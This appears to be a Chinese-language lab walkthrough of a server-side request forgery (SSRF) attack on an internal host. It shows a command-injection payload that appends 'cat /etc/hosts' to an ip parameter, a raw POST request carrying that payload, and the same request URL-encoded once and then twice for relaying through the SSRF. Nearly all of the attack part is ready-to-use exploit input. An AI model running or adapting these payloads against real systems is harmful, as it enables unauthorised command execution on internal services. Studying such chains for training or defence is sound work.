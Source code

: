 ### 172.72.23.24

![image-20240905102827239](https://image.201068.xyz/assets/29.SSRF/image-20240905102827239.png)

![image-20240905102844947](https://image.201068.xyz/assets/29.SSRF/image-20240905102844947.png)

#### 命令执行

```
127.0.0.1;cat /etc/hosts
```

#### 构造POST请求

```
POST / HTTP/1.1
Host: 172.72.23.24
Content-Length: 27
Content-Type: application/x-www-form-urlencoded

ip=127.0.0.1;cat /etc/hosts
```

##### burp两次url编码

![image-20240905103244754](https://image.201068.xyz/assets/29.SSRF/image-20240905103244754.png)

###### 第一次url编码

![image-20240905103325758](https://image.201068.xyz/assets/29.SSRF/image-20240905103325758.png)

```
%50%4f%53%54%20%2f%20%48%54%54%50%2f%31%2e%31%0d%0a%48%6f%73%74%3a%20%31%37%32%2e%37%32%2e%32%33%2e%32%34%0d%0a%43%6f%6e%74%65%6e%74%2d%4c%65%6e%67%74%68%3a%20%32%37%0d%0a%43%6f%6e%74%65%6e%74%2d%54%79%70%65%3a%20%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%2d%77%77%77%2d%66%6f%72%6d%2d%75%72%6c%65%6e%63%6f%64%65%64%0d%0a%0d%0a%69%70%3d%31%32%37%2e%30%2e%30%2e%31%3b%63%61%74%20%2f%65%74%63%2f%68%6f%73%74%73
```



###### 第二次url编码

![image-20240905103342532](https://image.201068.xyz/assets/29.SSRF/image-20240905103342532.png)

```
%25%35%30%25%34%66%25%35%33%25%35%34%25%32%30%25%32%66%25%32%30%25%34%38%25%35%34%25%35%34%25%35%30%25%32%66%25%33%31%25%32%65%25%33%31%25%30%64%25%30%61%25%34%38%25%36%66%25%37%33%25%37%34%25%33%61%25%32%30%25%33%31%25%33%37%25%33%32%25%32%65%25%33%37%25%33%32%25%32%65%25%33%32%25%33%33%25%32%65%25%33%32%25%33%34%25%30%64%25%30%61%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%36%65%25%37%34%25%32%64%25%34%63%25%36%35%25%36%65%25%36%37%25%37%34%25%36%38%25%33%61%25%32%30%25%33%32%25%33%37%25%30%64%25%30%61%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%36%65%25%37%34%25%32%64%25%35%34%25%37%39%25%37%30%25%36%35%25%33%61%25%32%30%25%36%31%25%37%30%25%37%30%25%36%63%25%36%39%25%36%33%25%36%31%25%37%34%25%36%39%25%36%66%25%36%65%25%32%66%25%37%38%25%32%64%25%37%37%25%37%37%25%37%37%25%32%64%25%36%36%25%36%66%25%37%32%25%36%64%25%32%64%25%37%35%25%37%32%25%36%63%25%36%35%25%36%65%25%36%33%25%36%66%25%36%34%25%36%35%25%36%34%25%30%64%25%30%61%25%30%64%25%30%61%25%36%39%25%37%30%25%33%64%25%33%31%25%33%32%25%33%37%25%32%65%25%33%30%25%32%65%25%33%30%25%32%65%25%33%31%25%33%62%25%36%33%25%36%31%25%37%34%25%32%30%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%36%38%25%36%66%25%37%33%25%37%34%25%37%33
```
